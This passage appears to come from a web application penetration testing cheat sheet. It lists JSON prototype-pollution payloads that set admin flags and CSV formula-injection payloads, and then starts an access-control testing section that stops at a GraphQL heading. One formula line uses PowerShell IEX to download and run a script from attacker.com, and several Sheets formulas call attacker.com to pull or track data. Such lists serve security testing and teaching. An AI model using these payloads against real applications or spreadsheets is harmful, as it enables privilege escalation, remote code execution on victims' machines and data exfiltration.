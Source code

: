 ### **🆕 JSON Injection & Prototype Pollution**:
```javascript
// Prototype pollution via JSON
{
  "__proto__": {
    "admin": true,
    "role": "administrator"
  }
}

// Constructor pollution
{
  "constructor": {
    "prototype": {
      "admin": true
    }
  }
}

// Deep merge pollution
{
  "user": {
    "__proto__": {
      "isAdmin": true
    }
  }
}
```

### **🆕 CSV Injection/Formula Injection**:
```csv
# Excel formula injection
=cmd|'/c calc.exe'!A1
=cmd|'/c powershell IEX(wget attacker.com/ps.ps1)'!A1
@SUM(1+1)*cmd|'/c calc.exe'!A1

# Google Sheets
=IMPORTRANGE("https://attacker.com/malicious", "A1:A1")
=IMAGE("https://attacker.com/track.png")
```

---

## **5. Broken Access Control + API Security**

### **Traditional Access Control Testing**
- **Step 1: Test URL Access Controls**: Try accessing URLs that belong to other users.
- **Step 2: Test for Authorization Bypass**: Try manipulating request parameters.

### **🆕 GraphQL Access Control**
